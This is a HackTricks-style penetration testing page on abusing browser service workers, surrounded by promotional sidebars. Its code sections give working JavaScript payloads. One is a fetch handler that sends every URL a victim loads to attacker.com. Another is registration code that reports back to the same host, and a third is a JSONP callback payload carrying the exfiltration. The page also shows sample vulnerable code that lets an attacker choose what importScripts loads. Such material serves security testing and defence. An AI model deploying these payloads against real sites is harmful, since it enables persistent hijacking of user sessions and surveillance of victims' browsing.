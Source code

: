 # Abusing Service Workers



<details>

<summary><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦 </strong></a><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️ </strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Basic Information

A service worker is a **script** that your browser **runs** in the **background**, separate from a web page, opening the door to features that don't need a web page or user interaction. ([More info about what is a service worker here](https://developers.google.com/web/fundamentals/primers/service-workers)).\
Then you could abuse service workers by **creating/modifying them** on the **victim session** inside the **vulnerable** web **domain** that grant the **attacker control** over **all the pages** the **victim** will load in **that domain**.

### Check existent SWs

You can see them in the **Service Workers** field in the **Application** tab of **Developer Tools**. You can also look at [chrome://serviceworker-internals](https://chromium.googlesource.com/chromium/src/+/main/docs/security/chrome%3A/serviceworker-internals).

### Push Notifications

If the victim didn't grant **push notifications permissions** the service worker **won't be able to receive communications from the server if the user doesn't access the attacker page again**. This will **prevent** for example, maintain conversations with all the pages that accessed the attacker web page so web a exploit if found the SW can receive it and execute it.\
However, if the victim **grants push notifications permissions this could be a risk**.

## Attack Creating a Service Worker

In order to exploit this vulnerability you need to find:

* A way to **upload arbitrary JS** files to the server and a **XSS to load the service worker** of the uploaded JS file
* A **vulnerable JSONP request** where you can **manipulate the output (with arbitrary JS code)** and a **XSS** to **load the JSONP with a payload** that will **load a malicious service worker**.

In the following example I'm going to present a code to **register a new service worke**r that will listen to the `fetch` event and will **send to the attackers server each fetched URL** (this is the code you would need to **upload** to the **server** or load via a **vulnerable JSONP** response):

```javascript
self.addEventListener('fetch', function(e) {
  e.respondWith(caches.match(e.request).then(function(response) {
    fetch('https://attacker.com/fetch_url/' + e.request.url)
});
```

And this is the code that will **register the worker** (the code you should be able to execute abusing a **XSS**). In this case a **GET** request will be sent to the **attackers** server **notifying** if the **registration** of the service worker was successful or not:

```javascript
<script>
window.addEventListener('load', function() {
var sw = "/uploaded/ws_js.js";
navigator.serviceWorker.register(sw, {scope: '/'})
  .then(function(registration) {
    var xhttp2 = new XMLHttpRequest();
    xhttp2.open("GET", "https://attacker.com/SW/success", true);
    xhttp2.send();
  }, function (err) {
    var xhttp2 = new XMLHttpRequest();
    xhttp2.open("GET", "https://attacker.com/SW/error", true);
    xhttp2.send();
  });
});
</script>
```

In case of abusing a vulnerable JSONP endpoint you should put the value inside `var sw`. For example:

```javascript
var sw = "/jsonp?callback=onfetch=function(e){ e.respondWith(caches.match(e.request).then(function(response){ fetch('https://attacker.com/fetch_url/' + e.request.url) }) )}//";
```

There is a **C2** dedicated to the **exploitation of Service Workers** called [**Shadow Workers**](https://shadow-workers.github.io) that will be very useful to abuse these vulnerabilities.

In an XSS situation, the 24 hour cache directive limit ensures that a malicious or compromised SW will outlive a fix to the XSS vulnerability by a maximum of 24 hours (assuming the client is online). Site operators can shrink the window of vulnerability by setting lower TTLs on SW scripts. We also encourage developers to [build a kill-switch SW](https://stackoverflow.com/questions/33986976/how-can-i-remove-a-buggy-service-worker-or-implement-a-kill-switch/38980776#38980776).

## Abusing `importScripts` in a SW via DOM Clobbering

The function **`importScripts`** called from a Service Worker can **import a script from a different domain**. If this function is called using a **parameter that an attacker could** modify he would be able to **import a JS script from his domain** and get XSS.

**This even bypasses CSP protections.**

**Example vulnerable code:**

* **index.html**

```html
<script>
navigator.serviceWorker.register('/dom-invader/testcases/augmented-dom-import-scripts/sw.js' + location.search);
  // attacker controls location.search
</script>
```

* **sw.js**

```javascript
const searchParams = new URLSearchParams(location.search);
let host = searchParams.get('host');
self.importScripts(host + "/sw_extra.js");
//host can be controllable by an attacker
```

### With DOM Clobbering

For more info about what DOM Clobbering is check:

{% content-ref url="dom-clobbering.md" %}
[dom-clobbering.md](dom-clobbering.md)
{% endcontent-ref %}

If the URL/domain where that the SW is using to call **`importScripts`** is **inside a HTML element**, it's **possible to modify it via DOM Clobbering** to make the SW **load a script from your own domain**.

For an example of this check the reference link.

## References

* [https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering](https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering)

<details>

<summary><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦 </strong></a><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️ </strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
